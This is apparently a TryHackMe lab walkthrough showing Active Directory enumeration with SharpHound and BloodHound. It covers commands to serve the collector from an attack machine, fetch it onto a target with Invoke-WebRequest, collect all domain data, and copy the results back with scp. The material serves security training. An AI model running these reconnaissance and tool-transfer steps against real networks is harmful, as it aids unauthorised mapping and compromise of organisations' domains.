

# Through Bloodhound

Bloodhound runs locally on an attacker's machine. The attacker must run a "collector" like sharphound on the target 
to enumerate domain information. After the collector finishes running, it will output a series of .json files for 
import into the Bloodhound interface.

On the attack machine:

    mkdir sharphound
    
    cd sharphound 
    
    wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
    --2022-10-12 14:20:23--  https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
    ...
    HTTP request sent, awaiting response... 200 OK
    Length: 2138953 (2.0M) [application/octet-stream]
    Saving to: ‘SharpHound-v1.1.0.zip’
    
    SharpHound-v1.1.0.z 100%[===================>]   2.04M  1.91MB/s    in 1.1s    
    
    2022-10-12 14:20:35 (1.91 MB/s) - ‘SharpHound-v1.1.0.zip’ saved [2138953/2138953]
        
Start a server to serve it:

    python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

Now `ssh` into target machine using the credentials given:

    ssh kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com

In the target machine terminal, switch to powershell:

    za\kenneth.davies@THMJMP1 C:\Users\kenneth.davies\Documents>powershell
 
Choose a directory to work from (I used `Documents`, and download the 
`SharpHound-v1.1.0.zip` from the http server on the attack machine:

    PS C:\Users\kenneth.davies\Documents> Invoke-WebRequest http://10.50.16.168/SharpHound-v1.1.0.zip -OutFile SharpHound-v1.1.0.zip

Extract:

    PS C:\Users\kenneth.davies\Documents> Expand-Archive SharpHound-v1.1.0.zip

Enumerate:

    PS C:\Users\kenneth.davies\Documents> cd SharpHound-v1.1.0
 
    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> .\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs  2022-10-12T14:49:52.7476245+01:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
    ...
    2022-10-12T14:50:42.7872718+01:00|INFORMATION|SharpHound Enumeration Completed at 2:50 PM on 10/12/2022! Happy Graphing!

Get name of results:

    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> dir
    Directory: C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/12/2022   2:50 PM         139831 20221012145038_BloodHound.zip
    ...

On the attack machine, use `ssh` to copy the bloodhound results over:

    scp kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com:C:/Users/kenneth.davies/Documents/SharpHound-v1.1.0/20221012145038_BloodHound.zip .

Fire up `neo4j` and `bloodhound`:

    sudo neo4j start                     
    bloodhound &

Drop the copied over results in the bloodhound window, and play around with options.

| 
|:--:|
|  Start playing around and answer the questions. |

* Use `Search for a node...` to find specific users, groups, etc.
* Click on specific properties of an object to visualise it
* Use the Analysis tab to run built-in queries
* ...
